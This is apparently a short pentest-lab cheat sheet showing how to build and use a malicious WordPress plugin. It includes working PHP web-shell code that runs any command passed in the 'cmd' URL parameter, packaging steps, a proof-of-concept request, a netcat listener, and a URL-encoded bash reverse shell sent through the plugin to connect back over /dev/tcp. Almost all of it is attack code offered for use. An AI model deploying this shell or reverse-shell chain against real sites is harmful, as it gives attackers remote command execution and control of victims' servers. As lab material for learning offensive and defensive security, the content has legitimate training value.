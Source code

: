 **Create the plugin from scratch:**

mkdir malicious_shell_plugin/

cd malicious_shell_plugin/

sudo nano malicious-plugin.php

**CODE:**
```
<?php
/*
Plugin Name: Malicious wordpress plugin
Description: A plugin with a web shell.
Version: 1.1337
Author: 1337 
*/

if (isset($_GET['cmd'])) {
    echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';
}
?>
```

sudo chmod +x malicious-plugin.php

zip -r shell_plugin.zip shell_plugin

**Check if file is there**

http://1337.codes/wp-content/plugins/shell_plugin/

**Proof of concept:**

http://1337.codes/wp-content/plugins/shell_plugin/malicious-plugin.php?cmd=id

**Setup a listener:**

┌──(kali㉿kali)-[~/Desktop]  
└─$ nc -lvnp 4444

**Pick a shell from https://www.revshells.com/**

sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.201%2F4444%200%3E%261

**Make it beter with bash -c "COMMAND"**

bash%20-c%20"sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.201%2F4444%200%3E%261"

http://1337.codes/wp-content/plugins/shell_plugin/malicious-plugin.php?cmd=bash%20-c%20"sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.201%2F4444%200%3E%261"
